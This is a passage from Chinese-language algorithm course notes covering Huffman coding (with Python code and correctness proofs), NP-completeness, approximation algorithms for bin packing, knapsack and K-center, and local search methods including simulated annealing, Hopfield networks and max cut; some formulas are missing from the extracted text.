从最小堆中反复取出两个最小频率的节点，创建一个新的父节点。这个父节点的频率是两个子节点频率之和。新的父节点不代表某个具体的字符，而是作为一个中间节点，连接两个原始节点（即两个字符的频率节点）。将新生成的父节点插回最小堆中。这个过程不断重复，直到堆中只剩下一个节点为止。最终剩下的节点就是哈夫曼树的根节点。
- 生成编码：
一旦哈夫曼树构建完成，就可以为每个字符分配编码。通过从树的根节点出发，沿着每一条路径到达叶子节点来确定编码。通常，沿左边的边分配"0"，沿右边的边分配"1"。
- 叶子节点所对应的编码即为哈夫曼编码。
代码实现
import heapq
class Node:
def __init__(self, char, freq):
self.char = char # 字符
self.freq = freq # 频率
self.left = None # 左子树
self.right = None # 右子树
def __lt__(self, other):
return self.freq < other.freq
def build_huffman_tree(freqs):
# 创建优先队列（最小堆），每个元素是一个Node对象
heap = [Node(char, freq) for char, freq in freqs.items()]
heapq.heapify(heap)
while len(heap) > 1:
# 取出两个频率最小的节点
left = heapq.heappop(heap)
right = heapq.heappop(heap)
# 创建一个新的父节点
merged = Node(None, left.freq + right.freq)
merged.left = left
merged.right = right
# 将新的节点插回堆中
heapq.heappush(heap, merged)
# 返回最终的哈夫曼树的根节点
return heap[0]
def generate_huffman_codes(node, prefix="", codebook={}):
if node is not None:
if node.char is not None:
# 叶子节点，存储编码
codebook[node.char] = prefix
else:
# 递归遍历左右子树
generate_huffman_codes(node.left, prefix + "0", codebook)
generate_huffman_codes(node.right, prefix + "1", codebook)
return codebook
伪代码
void Huffman ( PriorityQueue heap[ ], int C )
{ consider the C characters as C single node binary trees,
and initialize them into a min heap;
for ( i = 1; i < C; i++ ) {
create a new node;
/* be greedy here */
delete root from min heap and attach it to left_child of node;
delete root from min heap and attach it to right_child of node;
weight of node = sum of weights of its children;
/* weight of a tree = sum of the frequencies of its leaves */
insert node into min heap;
}
}
Huffman编码正确性¶
贪心选择性质¶
\(C\) 为一个字母表，其中每个字符 \(c \in C\) 都有一个频率 \(c.freq\).令 \(x\) 和 \(y\) 是 \(C\) 中频率最低的两个字符。那么存在 \(C\) 的一个最优前缀码，\(x\) 和 \(y\) 的码字长度相同，且只有最后一个二进制位不同(即在编码二叉树中，它们是兄弟节点)。

我们也可以用交换法，如上图，可以证明交换后的树所用的编码长度不会变大，如果原来的是最优解，那么交换后的也是最优解。
最优子结构¶
\(C\) 为一个字母表，其中每个字符 \(c \in C\) 都有一个频率 \(c.freq\)。令 \(x\) 和 \(y\)是 \(C\) 中频率最低的两个字符。令 \(C′\) 为 \(C\) 去掉字符 \(x\) 和 \(y\)，加入一个新字符 \(z\) 后的字母表。我们给 \(C′\) 也定义频率集合，不同之处只是 \(z.freq = x.freq + y.freq\)。令 \(T′\) 为 \(C′\) 的任意一个最优前缀码树，那么我们可以将 \(T′\) 中叶结点 \(z\) 替换为一个以 \(x\) 和 \(y\) 为孩子的内部结点得到一个 \(C\) 的一个最优前缀码树 \(T\)。
Note
如果上面这一命题正确，那么我们每次合并 \(x\) 和 \(y\) 得到 \(z\) 之后，按照没有 \(x\) 和 \(y\)，只有 \(z\) 的子问题继续推进我们的贪心算法可以得到 \(T′\) 这一子问题的最优解，它和合并 \(x\) 和 \(y\) 得到 \(z\) 这一前面已经验证正确性的贪心选择一起，就构成了整体的最优解。

使用反证法证明
首先我们有
因为\(T'\)相当于把\(T\)中\(x,y\)上移一层，假设\(T\)不是最优解，那么存在一个更优解\(T''\)，使得
即
则有
其中\(T'''\)是\(T''\)中\(x,y\)合并成\(z\)得到的树，这与\(T'\)是最优解矛盾，所以\(T\)是最优解，证毕。
NP完全性¶
约 1229 个字 预计阅读时间 4 分钟
基本概念¶
Definition
由多项式时间算法解决的问题集合。
其中多项式时间算法指的是算法的时间复杂度与输入的长度之间是多项式关系
NP(Non-deterministic Polynomial time)问题是指可以在多项式时间内验证一个解的问题集合。但是并不确定能不能在多项式时间内找到一个解。
多项式时间验证
we say \(B\) is an efficient verifier for problem \(X\) if
-
\(B\) runs in polynomial time,taking two arguments: an instance \(x\) and a certificate \(y\).
-
there exists a polynomial \(p\) such that for every \(x\) in \(X\), there is a certificate \(y\) of length at most \(p(|x|)\) such that \(B\) accepts \((x,y)\)
NP-hard问题是指所有的NP问题都能在多项式时间内约化为该问题。NP-hard问题不一定是NP问题,它是比NP问题更难的问题。
NPC(NP-Complete)问题是指既是NP问题，又是NP问题中最难的问题(NP-hard)。如果能在多项式时间内解决一个NPC问题，那么所有的NP问题都能在多项式时间内解决。也就是说
四者关系
- P问题能在多项式时间内解决，自然也能在多项式时间内验证，所以P问题是NP问题的子集。\(P \subseteq NP\)
- NPC问题是NP问题的子集，\(NPC \subseteq NP\)
- NPC问题也是NP-hard问题的子集，\(NPC \subseteq NP-hard\)，\(NPC=NP \cap NP-hard\)
- NP-hard问题不一定是NP问题，\(NP-hard \nsubseteq NP\)
- 如果NPC问题能在多项式时间内解决，那么所有的NP问题都能在多项式时间内解决，\(P=NP \Rightarrow P=NP=NPC\)
常见的多项式时间问题¶
- 最短路径问题：：给定一个有向图\(G = (V, E)\)即使是带负权的，我们可以在 \(O(|V||E|)\) 的时间内找到从单一源顶点开始的最短路径；这是多项式时间的，因为图中我们的输入规模可以视为 \(|V|+|E|\)
- 欧拉回路问题：是否存在一条路径，经过图中每条边恰好一次，且最终回到起点。这个问题可以在 \(O(|E|)\) 的时间内使用深度优先搜索解决。
- \(2-SAT\)问题：给定一个合取范式(如果它是由 \(2\) 个子句的合取构成的，每个子句是由\(2\)个变量或者它们的否定构成的析取)，也可以在多项式时间内找到是否存在变量的0，1赋值，使得合取式为真。
0-1背包问题
0-1背包问题的时间复杂度是指数级别的，不是多项式时间的。其背包容量是使用2进制表示的(\(\log C\)),前面讨论的\(n\)指的是\(n\)个2进制编码
形式语言(formal language)¶
一个形式语言\(L\)是一个字符串的集合，\(L \subseteq \Sigma^*\)，其中\(\Sigma\)是一个有限的字母表,其上的字符串(string)是字母表上的字符的有限序列,所有这样的字符串构成了\(\Sigma^*\)。
- 至多可数的集合上的有限字符串是可数的
- 语言可以做衔接、并、交、补、Kleene 闭包(由集合中的符号生成的所有可能的有限长度的字符串所构成的集合)等运算
Definition
给定语言\(L\),输入某一个字符串\(w\)，判定问题是指判断\(w\)是否属于\(L\)。如果\(w \in L\)，则输出YES，否则输出NO。(decision problem)
\(A\) solves problem \(L\) (\(A\) decides language \(L\)) if for every \(w \in \Sigma^*\)
\(A\) accepts \(w\) if and only if \(w \in L\)
给定语言\(L\),搜索问题是指找到一个\(w\)，使得\(w \in L\)。
给定语言\(L_1\)和\(L_2\)，计算某个从\(L_1\)到\(L_2\)的函数\(f\)。
Karp归约¶
称一个语言\(L_1\)可以多项式归约( \(Karp\) 归约)到另一个语言\(L_2\)，如果存在一个多项式时间的计算函数\(f\)，使得
记作\(L_1 \leqslant_p L_2\)。此时说明 \(L_2\) 至少和 \(L_1\) 一样难。
那么对于\(NP\)和\(P\)的关系，我们可以得到如下结论：
如果我们找到了一个\(NPC\)问题，那么所有的\(NP\)问题都可以归约到这个\(NPC\)问题，也就是说，如果我们能在多项式时间内解决一个\(NPC\)问题，那么所有的\(NP\)问题都可以在多项式时间内解决。此时有
如果我们不能在多项式时间内解决一个\(NPC\)问题，那么因为\(NPC\)问题是\(NP\)问题的子集，所以\(P\)是不等于\(NP\)的。
但是很遗憾的是，目前还没有人能够证明\(P\)是否等于\(NP\)，也就是说我们还不知道\(NPC\)问题是否可以在多项式时间内解决。
近似算法¶
约 2053 个字 预计阅读时间 7 分钟
对于一个最优化问题的算法，主要有以下三个期望
Note
1.算法需要能找到确切的最优解 2.算法需要能高效(在多项式时间内)运行 3.算法是通用的,需要可以解决一类问题中的所有实例，而不仅仅是单个实例有效
然而，对于某些问腿，我们有可能无法实现以上三个期望，例如NPC问题，所以我们可以退而求其次，做一些妥协；
- 如果算法舍弃第二个期望，则是用例如回溯等方法在指数时间内解决问题，这对于输入不大的情况是可以接受的；
- 如果舍弃第三个期望，我们相当于为问题找到一些容易解决的特例；
- 如果舍弃第一个期望，但我们能保证高效找到的解是和真正的最优解 “相差不大” 的，那么我们称这类算法为近似算法。
基本概念¶
Definition
假设有某类问题 \(\mathcal{I}\)（例如背包问题），其中的一个具体实例记为 \(I\)（当给定问题的参数定义的时候即为一个实例），且有一个复杂度为多项式的近似算法 \(A\)。定义：
- \(A(I)\) 为算法 \(A\) 在实例 \(I\) 上得到的解；
- \(\mathbf{OPT}(I)\) 为实例 \(I\) 的最优解。
考虑 \(I\) 是最小化问题，若存在 \(r > 1\)，对任意的 \(I\) 都有：
那么称 \(A\) 为该问题的 \(r\)-近似算法（即对于任何可能的问题实例，\(A\) 给出的解都不会比最优解的 \(r\) 倍大）。我们特别关心其中可以取到的最小 \(r\)，称：
为 近似比（approximation ratio），即算法 \(A\) 最紧的近似界。它可以等价定义为：
即这个比值在多实例中的比值是最紧的界。反之，如果是最大化问题，那么上述公式改为：
将两者合并起来，可以统一写作：
由于\(OPT\)算法一般是难以确定的，所以确定近似比一般有以下两个步骤
-
首先寻找到一个 \( r > 1 \)，对于任何实例 \( I \)，都有 \( A(I) \leqslant r \cdot \text{OPT}(I) \)（可以首先找到 \( \text{OPT}(I) \) 的一个下界 \( \text{LB}(I) \leqslant \text{OPT}(I) \)，然后让 \( A(I) \leqslant r \cdot \text{LB}(I) \) 即可）；
-
接下来证明 \( r \) 是不可改进的，即对于任意的 \( \epsilon > 0 \)，都存在在一个实例 \( I_\epsilon \)，使得 \( A(I_\epsilon) \geqslant (r-\epsilon) \cdot \text{OPT}(I_\epsilon) \)。
PTAS¶
PTAS（多项式时间近似方案，Polynomial time approximation scheme）：存在算法 A，使得对每一个固定的 \(\varepsilon > 0\)，对任意的实例 \(I\) 都有
且算法 \( A \) 的运行时间可以被问题规模 \( |I| \) 的多项式上界所限制。则称 \( A \) 是该问题的一个 PTAS。
理论上，算法 \( A \) 在多项式时间内可以近似：不过不同的 \( \varepsilon \)，\( A \) 的运行时间也可能不可能。例如，如果算法可以给出一个复杂度为 \( O(|I|^{1/\epsilon}) \) 的解，这样算法的表现就会很糟糕，因为指数很大。一般可以将 PTAS 的复杂度记为 \( O(|I|^{(1/\epsilon)}) \)。
EPTAS和FPTAS¶
EPTAS (Efficient PTAS): 在 PTAS 的基础上，要求算法 \( A \) 的复杂度是 \( O(|I|^c) \)，其中 \( c > 0 \) 是与\(\varepsilon\)无关的常数。可以将 EPTS 的复杂度记为 \( |I^{O(1)}| f(1/\varepsilon）\)。
FPTAS (Fully PTAS): 在 PTAS 的基础上，要求算法 \( A \) 的运行时间关于 \( |I| \) 和 \(\varepsilon\) 都是多项式项， 即可以将 FPTAS 的复杂度记为 \(|I|^{O(1)} (1/\varepsilon)^{O(1)}\)
装箱问题(一维)¶
问题描述
有 \(n\) 个物品，每个物品的大小为 \(s_i\)，有若干个箱子，每个箱子的大小为 \(C\)，要求将所有物品放入箱子中，使得每个箱子的大小不超过 \(C\)，并且使得所需的箱子数目尽可能少。
给定若干个物品，判断它们是否可由两个箱子装下是 NP 完全的
接下来我们默认\(C=1\)，即箱子的大小为1，方便讨论。
关于一维装箱问题，除非 \(P=NP\)，否则不存在多项式时间的算法满足
其中 \(\alpha < \frac{3}{2}\)。
Proof
使用反证法，如果存在近似比小于 \(\frac{3}{2}\) 的算法，那么可以用这个算法\(A\)来解决NPC的判断物品是否可以由两个箱子装下的问题。
-
如果物品可以由两个箱子装下，那么\(OPT=2\)，则\(A(I) < \frac{3}{2} \cdot 2 = 3\)，即\(A(I) < 3\)；此时\(A(I)=2\)，那么\(A\)可以判断；
-
如果物品不可以由两个箱子装下，那么\(OPT \geqslant 3\)，则\(A(I)\)至少为\(3\)，即\(A(I) \geqslant 3\)；但是由于近似比小于\(\frac{3}{2}\)，所以由\(A(I)\)可以判断此时OPT不可能是\(2\)。此时这个近似算法\(A\)就可以判断物品是否可以由两个箱子装下。
综上，我们用多项式算法\(A\)来解决NPC问题，所以只可能有P=NP。
在装箱问题中，我们一般不关心全部的实例，而关心 \(OPT(I)\) 较大的那些实例。因此定义 “渐近近似比（asymptotic approximation ratio）” 如下：
Definition
对于一维装箱问题，定义渐近近似比为,对于任意常数 \(\alpha \geqslant 1\),对于任意实例 \(I\)，存在常数 \(k\)，使得
则称所有满足上式的 \(\alpha\) 的下确界为\(A\)渐近近似比。
\(k\)可以是一个常数，也可以是\(OPT(I)\)的一个高阶无穷小。
Quote
装箱问题中，若所有的物品信息在开始装箱前已知，则它是离线（offline）问 题；若初始时物品信息并不全部给出，例如物品在传送带上逐个到达，需要我们即时安排，而我们对未到达物品信息一无所知，同时做出的决定无法更改，此时称为在线（online）问题。“近似比” 通常用来描述离线问题近似算法的性能。而对于在线问题，一般用 “竞争比（competitive ratio）” 的概念。
Next Fit¶
Next Fit 算法是一种简单的装箱算法，其思想是：对于每个物品，尝试将其放入当前箱子，如果放不下，则关闭当前箱子，并开出一个新箱子，将其放入；
Next Fit 算法有一个性质：相邻两个箱子的大小之和肯定大于1，否则就不需要开新箱子；
根据这个，我们可以证明：
即
换句话说，如果我们的算法的箱子数目用了\(2M\)个，那么最优解至少要用\(M+1\)个箱子。
Proof
令 \( S(B_i) \) 为箱子 \( B_i \) 中物品的大小之和，那么有：
将所有不等式相加，得到：
所以总的大小严格大于 \(M\)，即最优解箱子数目至少为 \(M+1\)。
事实上\(NF\)装箱的近似比就是\(2\),不会再有比这个小的了；
下确界的例子
考虑\(M\)组物品，每组物品的大小为\(\dfrac{1}{2},\varepsilon\),最后再加一个\(\dfrac{1}{2}\),且满足\(M\varepsilon < 1\),此时\(NF\)算法需要\(M+1\)个箱子，而最优解需要\(M/2+1\)个箱子，所以\(NF\)算法的下确界为\(2\)。
Any Fit¶
这是一类的Fit方案，满足: 当物品到达时，除非所有目前打开的箱子都无法装下该物品，才允许打开一个新箱子
主要包括：
- (FF)First Fit: 按箱子打开的顺序从早到晚检查,将物品放入第一个能放下的箱子中；
- (BF)Best Fit: 将物品放入剩余空间最小的箱子中,最大化利用箱子空间；
- (WF)Worst Fit: 将物品放入剩余空间最大的箱子中;
前面的所有 Fit 算法都是在线算法。此外，Any Fit 的三种算法都满足相邻两个箱子物品尺寸之和大于1，因此它们都不会比 NF 差。而前面 NF 的下界实例也适用于 WF，因此 WF 和 NF 一样差。
FF VS BF
从定义上来看，BF最大化利用了空间，似乎表现会比FF好，但是实际上并不能很好判断两者的优劣：
- 0.5、0.7、0.1、0.4、0.3，FF=2；BF=3；
- 0.5、0.7、0.3、0.5，FF=3；BF=2；
从上面的例子可以看出，BF并不一定比FF好，FF也不一定比BF好；
FF和BF的近似比都是1.7；
0-1背包问题¶
基础的2-近似算法¶
在贪心算法中，如果是解决分数背包问题，那么可以使用贪心算法，是让背包的每一单位重量的价值最大化；但是如果是整数的0-1背包问题，那么有以下反例：
有两个物品，第一个物品的价值为 1，重量为 1，第二个物品的价值为 2，重量为 3，背包的容量为 3。我们的贪心策略是让每单位重量的价值最大化，因此贪心算法的选择结果是选择第一个物品，但实际上最优解显然是选择第二个物品，这样背包的价值为 2，而贪心算法的解为 1。因此贪心算法并不是最优的。
为了得到近似比，我们需要进一步改进我们的贪心算法：我们有两个贪心策略，其一是根据这里的单位重量的价值（profit density），其二是直接贪心选择最大价值的物品，我们运行两个算法选择最优解，我们可以证明，这样结合后的近似比为 2
设
- \(P_{frac}\) 为分数背包问题的最优解；
- \(P_{OPT}\) 为0-1背包问题的最优解；
- \(P_{greedy}\) 为贪心算法的解；
- \(p_{max}\) 为装得下的物品中价值最大的物品的价值；
那么有
所以
其中的\(P_{frac} \leqslant P_{greedy}+p_{max}\)是因为按照贪心策略，我们选择了最大的物品，在即将满的时候，\(P_{frac}\)在\(P_{greedy}\)的基础上将\(p_{max}\)的截取了一部分装进去了；
Summary
如果已知最优解中价值最大的前k个，那么可以设计出近似比为\(\dfrac{k+1}{k}\)的算法
0-1背包的FPTAS算法¶
现在我们讨论一个更美好的算法，即一个可以无限近似的算法。利用动态规划一讲的算法我们知道 0-1背包问题是有伪多项式算法的，即其复杂度是 \(O(nC)\) 的，其中 \(n\) 是物品的数量，\(C\) 是背包的容量。但我们可以换个角度进行动态规划，我们的数组第二个维度不再是背包的容量，而是价值，即我们原先的数组是 A[i][c]表达的是前 i 个物品放入容量为 c 的背包的最大价值，现在我们的数组是 A[i][v] 表达的是前 i 个物品放入价值为 v 的背包的最小重量。转移方程为：
Note
Let \( W_{i,p} \) be the minimum weight of a collection from \(\{1, \ldots, i\}\) with total profit being exactly \( p \).
- Take \( i \):
- Skip \( i \):
显然，这一动态规划的复杂度是 \(O(nV)\) 的，其中 \(V\) 是所有物品的价值之和。我们做个简单的变换，设 \(vmax\) 是所有物品的价值的最大值，那么显然有 \(V \leqslant nvmax\)因此我们的复杂度是 \(O(n^2 vmax)\) 的。
如果发现 \(vmax\) 的大小是 \(n\) 的多项式级别的，那么我们将得到一个多项式时间的算法。然而并非所有实例都能满足这一条件，因此我们需要对输入的价值做一些技术性的处理，即对输入的所有价值做同比例的缩小，使得 \(vmax\) 能缩小到 \(n\) 的多项式 级别
Key-point
给定想要的比例\(\varepsilon\),取\(b=\dfrac{\varepsilon v_{max}}{n}\) 将输入的全体价值同时缩放一个比例\(b\),使得最大价值为\(n\)的多项式级别，做向上(或者向下)取整，然后使用动态规划做法，得到最优解\(v\);最后再将结果放大回来，我们相信放大回来的价值和原价值是接近的，即\(bv\)是一个近似解。
可以证明上述算法是 0-1 背包的一个FPTAS算法
首先时间复杂度是显然的，我们缩小价值后的的动态规划算法是
满足多项式时间的要求；
我们用多项式算法解决了\(v_i'\)价值下的问题：
我们还需要关注经过缩放再放大之后，原本价值的变化是怎么样的即 \(v_i' = \lceil v_i / b \rceil b\) 和 \(v_i\) 是接近的。事实上因为在向上取整时最多只会加上 1，因此我们有：
设对于 \(v_1, \ldots, v_n\) 而言的最优物品集合为 \(S^*\)，而对于 \(v_1', \ldots, v_n'\) 而言的最优物品集合为 \(S\)，那么我们有：
这是因为 \(S\) 是 \(v_1', \ldots, v_n'\) 的最优解，而 \(S^*\) 是一个可行解。然后结合上述含入的不等式我们有如下等式链：
比较首尾，只要能估计出 \(v_{\max}\) 和 \(\sum_{i \in S} v_i\) 的关系，我们就能得到近似化的上界。显然$v_{max} \leqslant \sum_{i \in S^*} v_i $
因此我们的近似化满足 FPTAS 的要求。
K-Center问题¶
Greedy-KCenter问题的的解不大于最优解的两倍，即
证明：如果该算法的K个中心刚好在最优解的圆里面，证毕；如果不在，那么其至少有两个在同一个最优解的圆里面，由于每次选的都是最远的，所以这两个点(u,v)的距离大于其解。
也证毕。
局部搜索¶
约 3466 个字 39 行代码 预计阅读时间 12 分钟
昔孟母，择邻处
引入
如果我们位于一座山上，所拥有的信息只有我们周围的地形，现在我们要下山，理所应当的，我们会选择当前所能看到的最低的位置前进，当然，这样的选择并不一定能够保证我们最终能够到达山脚下，有可能只是到达一个山谷；但是有时候这种方法是有效的。
局部搜索（Local Search）是一种常用的优化方法，主要用于求解大规模的优化问题，尤其是那些解空间较大且不容易通过全局搜索找到最优解的问题。局部搜索算法从一个初始解出发，在当前解的邻域中不断进行探索，以寻找更好的解，直到满足某些停止条件。
具体来说，局部搜索的基本流程包括以下几个步骤：
- 初始化：选择一个初始解。
- 邻域搜索：通过某种方式生成当前解的邻域解，即在当前解的基础上进行微小的改变，得到一组相似的解。
- 选择最优邻域解：从邻域解中选择一个“更优”的解，作为新的当前解。
- 迭代：重复邻域搜索和选择最优邻域解的步骤，直到满足停止条件（如达到最大迭代次数、解的改进达到一定程度等）。
局部搜索通常用于求解 组合优化问题 （如旅行商问题、图着色问题等），尤其在搜索空间庞大的情况下，它通过聚焦在较小的局部区域内进行搜索，能够在较短的时间内找到一个较好的解，尽管该解不一定是全局最优。
局部搜索的一些常见变种包括：
- 爬山算法（Hill Climbing）：一种简单的局部搜索方法，通过选择邻域中最好的解逐步优化，直到没有更好的解为止。
- 模拟退火（Simulated Annealing）：在爬山算法的基础上引入了随机性，允许接受较差的解，从而避免陷入局部最优解。
- 禁忌搜索（Tabu Search）：通过维护一个禁忌表来记录已经访问过的解，防止算法反复访问已探索过的区域，从而提高搜索效率。
局部搜索的优点是计算效率高、实现简单，但其缺点是容易陷入局部最优解(到达了山谷而不是山底)。
局部搜索的框架¶
局部性(Locality)
-
需要在neighborhood中进行搜索，即在可行集中的邻域进行搜索
-
需要保证局部最优是 自身邻域 的全局最优
搜索
-
从一个可行解开始，每一次迭代都会在当前解的邻域中选择一个更好的解
-
达到局部最优当且仅当邻域内没有更好的解
伪代码¶
S \(\sim\) S' : S' is a neighboring solution of S, whree S' can be obtained by a slight modification of S.
即对S进行一次小的改变，得到S'。
N(S): neighborhood of S – the set { S': S \(\sim\) S' }.
SolutionType Gradient_descent()
{ Start from a feasible solution S FS ;
MinCost = cost(S);
while (1) {
S’ = Search( N(S) ); /* find the best S’ in N(S) */
CurrentCost = cost(S’);
if ( CurrentCost < MinCost ) {
MinCost = CurrentCost; S = S’;
}
else break;
}
return S;
}
点集覆盖问题¶
Vertex Cover Problem
给定一个无向图\(G=(V,E)\)，以及一个正整数\(K\)，是否存在V的一个子集\(C\)，使得\(C\)中点的个数不超过\(K\)，且对于每一条边\((u,v)\) \(\in\) \(E\)，至少有一个端点在\(C\)中。
Vertex cover problem (optimization)
在点集覆盖问题的基础上，找到最小的点集覆盖。
在这一问题中
- Feasible solution(\(\mathcal{FS}\)): 所有点集覆盖的集合
- Cost(S) = |S|
- S \(\sim\) S'
在点集覆盖中，每一个点集覆盖S至多有|V|个邻居，即N(S)的大小是有限的。
- search: Start from S = V; delete a node and check if S' is a vertex cover with a smaller cost.
Example
Case0,是正确的，依次删去所有点，最后得到的是空集，是一个点集覆盖。
Case1,是错误的，因为删除了一个点后，我们将最优解删去了；
改进¶
如果我们可以容忍暂时的代价升高，有可能会遇到代价降低更好的情况
SolutionType Metropolis()
{ Define constants k and T;
Start from a feasible solution S in FS ;
MinCost = cost(S);
while (1) {
S’ = Randomly chosen from N(S); //Adding is allowed
CurrentCost = cost(S’);
if ( CurrentCost < MinCost ) {
MinCost = CurrentCost; S = S’;
}
else {
With a probability, let S = S’;
else break;
}
}
return S;
}
模拟退火¶
Info
这种改进的方法由Metropolis，Rosenbluth，Rosenbluth，Teller和Teller于1953年提出，被称为Metropolis算法。他们希望利用统计力学中的原理模拟物理系统的行为。在统计物理中有一个假设，当一个系统的能量为E时，它出现的概率为\(e^{−E/kT}\)，其中\(T>0\)是温度，\(k\)是玻尔兹曼常数。这个假设被称为Boltzmann分布。显然的，当\(T\)固定时，能量越低的状态出现的概率越大，因此一个物理系统也有更大的概率处于能量低的状态。然后我们考虑温度T的影响，当\(T\)很大时，根据指数函数的特点，不同能量对应的概率其实差别可能不是很大；但\(T\)较低的时候，不同的能量对应的概率差别就会很大。
基于玻尔兹曼分布，我们可以将Metropolis算法描述如下：
-
初始化：随机选择一个可行解 \(S\)，设 \(S\) 的能量为 \(E(S)\)，并确定一个温度 \(T\)；
-
不断进行如下步骤：
(1) 随机选择 \(S\) 的一个邻居 \(S'\)（可以按均匀分布随机选择）；
(2) 如果 \(E(S') \leqslant E(S)\)，则接受 \(S'\) 作为新的解；
(3) 如果 \(E(S') > E(S)\)，则以概率 \(e^{-(E(S')-E(S))/kT}\) 接受 \(S′\) 作为新的解；如果接受了则更新解，继续下一轮迭代，否则保持原解 \(S\)，继续迭代。
直观地说，Metropolis算法就是在当前解S的邻居中随机选择一个解S′，如果S′的能量更低则接受，否则以一定概率接受一个更差的解——这就使得我们有可能跳出一个局部最优解。当然有一个注意的问题是，我们上面没有写算法的停止点，实际上进行到一个满意的结果中断算法即可。Metropolis等人证明了他们的算法具有如下性质
Note
设 \(Z = \sum_{S } e^{−E(S)/kT}\)，则对于任意状态 \(S\)，记\(f_S(t)\)为在\(t\)轮迭代中选到了状态\(S\)的比例，则当\(t \to \infty\)时，\(f_S(t) \text{(以概率1收敛)} \to e^{−E(S)/kT}/Z\)。
Hopfield 神经网络¶
Hopfield神经网络是一种全连接的反馈神经网络，于1982年由J.Hopfeld教授提出;Hopfield神经网络有一个能量函数，如果能将能量函数与一个优化问题绑定，那么Hopfield神经网络就可以用来解决这个优化问题，例如旅行商问题
Definition
-
Hopfield 神经网络可以抽象为一个无向图 \( G = (V, E) \)，其中 \( V \) 是神经元的集合，\( E \) 是神经元之间的连接关系，并且每条边 \( e \) 都有一个权重 \( w_e \)，这可能是正数或负数：
-
Hopfield 神经网络的一个状态 (configuration) 是指网络中每个神经元 (即图的顶点) 的状态的一个取值，倾向值能为 1 或 -1。我们记顶点u的状态为 \( s_u \)。
-
如果对于边 \( e = (u, v) \)，我们定义 \( c_e = w_e s_u s_v \)，我们希望\(c_e < 0\)
-
我们将上述条件的边称为“好”的 (good)，而称为“坏”的 (bad)。
-
如果我们一点是“满意的” (satisfied)，当且仅当它所连接的所有点中，好边的权重绝对值大于等于坏边的，即
反之，如果不满足这一条件，我们称其为“不满意的” (unsatisfied)。
6.最后，我们称一个构型是“稳定的（stable）”，当且仅当所有的点都是满意的
局部搜索算法¶
如果要设计一个局部搜索算法，我想我们有一个非常简单直接的方式。在这一问题中，我们自然地就会定义一个构型的邻居就是将其中一个点的状态取反得到的新构型，然后我们就可以设计一个局部搜索算法了：我们从一个随机初始构型开始，然后检查每个点是否满意，如果有不满意的点，我们就翻转这个点的状态（那么这个点自然就变得满意了），然后继续检查，直到所有的点都满意为止。 如果这个算法会停止 ，那么停止的时候我们得到的就是一个稳定构型：因为所有点都满意了;
我们称为状态翻转算法（State flipping algorithm）：
ConfigType State_flipping()
{
Start from an arbitrary configuration S;
while ( ! IsStable(S) ) {
u = GetUnsatisfied(S);
su = - su;
}
return S;
}
这个算法一定会停止吗
State_flipping算法至多反转\(\sum_{e \in E}|w_e|\)后会停止
首先，定义势能函数为一个构型\(S\)所有好边的权重的绝对值之和
显然，对于任意的构型\(S\)，\(\Phi(S) \geqslant 0\)，并且最大值就是所有边的权重绝对值之和。即
假设当前状态为\(S\),有一个不满意的点\(u\)，那么我们将\(u\)的状态取反变为\(\overline{u}\)，设此时状态为\(S'\)，那么
这是因为翻转后原先与 \(u\) 相连的好边都变成了坏边，坏边都变成了好边，其余边没有变化。又因为 \(u\) 是不满意的，因此与 \(u\) 相连的坏边比好边权重绝对值之和大，所以上式大于 0
势能函数只能取整数值，所以 \(\Phi(S') \geqslant \Phi(S)+1\)
这就意味着我们每次翻转一个不满意的点，势能函数就会增加至少 1。因为势能函数的取值范围是有限的（0 到所有边权重绝对值之和），所以我们的局部搜索算法一定会停止;
有推论:
设 \(S\) 是一个构型，如果 \(\Phi(S)\) 是局部最大值，则 \(S\) 是一个稳定构型
证明：如果 \(S\) 不是一个稳定构型，那么至少有一个点是不满意的，我们可以翻转这个点，势能函数会增加至少 1，这就意味着 \(\Phi(S)\) 不是局部最大值，矛盾。
最大割问题 (Max Cut)¶
最大割问题也是一个经典的 NP 困难问题，在这一问题中，我们希望将一个边权全为正的无向图 \(G = (V, E)\) 的顶点集合 \(V\) 分成两个集合 \(A\) 和 \(B\)（这时的解记为 \((A, B)\)），使得割边的权重和最大，其中割边的含义就是一条边的两个端点分别在 \(A\) 和 \(B\) 中，即我们要最大化
与Hopfield的关联
我们希望给出一个局部搜索解法----这是非常自然的，因为它和 Hopfield 神经网络问题之间有一个很直接的关联。我们有一个很简单的观察，对于任意的解 \((A, B)\)，然后将 \(A\) 中的点赋状态\(-1\)，\(B\) 中的点赋状态 \(1\)，因为所有边的权重都是正数，所以最大化割边权重和对应于\(Hopfield\) 神经网络问题其实就是最大化好边的总权重和 \(\Phi(S)\)，这就和 Hopfield 神经网络问题一样了,使用State flipping算法即可
局部算法与最优解的关系¶
在最大割问题中，我们可以证明局部搜索算法的最优解和全局最优解之间的关系：局部搜索算法给出的局部最优解最差也不会低于最优解的一半
即
设 \((A, B)\) 是如上局部搜索算法得出的一个局部最优解，\((A^∗, B^∗)\) 是最优解，则
Proof
设 \(u \in A\),因为\((A,B)\)是局部最优解，所以，如果将\(u\)从\(A\)中移到\(B\)中，割边权重和会减少；即
对所有的\(u \in A\)都成立，所以求和得到
等式左边为\(A\)中所有的边权重和的两倍，右边为\(A\)和\(B\)之间的边权重和(所有的割边的权重和)，所以
同理，我们可以得到
我们又知道，总的边权重和为
所以
优化¶
事实上在控制迭代次数引起的复杂度时非常常用（这里就是求 \(\Phi(S)\) 的局部最优值需要的迭代次数可能太多）。我们要求算法在找不到一个能对解有 “比较大的提升” 的时候就停止，即使当时的解不是局部最优解：
当我们处于解 \(w(A, B)\) 时，我们要求下一个解的权重至少要增大\(\dfrac{2\varepsilon}{n}w(A, B)\)，其中 \(n\) 是图 \(G\) 的顶点数。对于这一算法，我们有如下结论：
设 \((A, B)\) 是如上局部搜索算法得出的一个解，\((A^∗, B^∗)\) 是最优解，则
并且这一算法会在 \(O(\dfrac{n}{\varepsilon} \log W)\) 次状态翻转后停止，其中 \(W\) 是所有边的权重之和
Proof
对于任意的解 \((A, B)\)，设\(u \in A\)
对所有的\(u \in A\)都成立，所以求和得到
其中 \(n_A\) 是 \(A\) 中的点数，同理
所以
因为我们每次反转会使得割边权重和增加\(1+\dfrac{\varepsilon}{n}\)倍，所以我们需要\(O(\dfrac{n}{\varepsilon} \log W)\)次状态翻转后会达到停止条件
选择更好的邻居
随机算法¶
约 1631 个字 54 行代码 预计阅读时间 6 分钟
确定性算法是指在给定相同输入的情况下，算法总是产生相同的结果。
随机算法是指在给定相同输入的情况下，算法可能产生不同的结果。
